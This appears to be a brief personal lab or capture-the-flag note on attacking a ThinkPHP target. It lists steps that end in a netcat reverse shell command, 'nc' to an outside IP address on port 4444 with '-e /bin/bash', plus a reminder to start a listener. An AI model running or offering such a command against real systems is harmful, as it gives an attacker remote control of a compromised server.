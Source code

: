 # t_thinkphp_2

    - do the same as page
    - apk add bash (since there isn't installed bash)
    - nc 140.115.197.136 4444 -e /bin/bash (on website)
    - remember to start listening
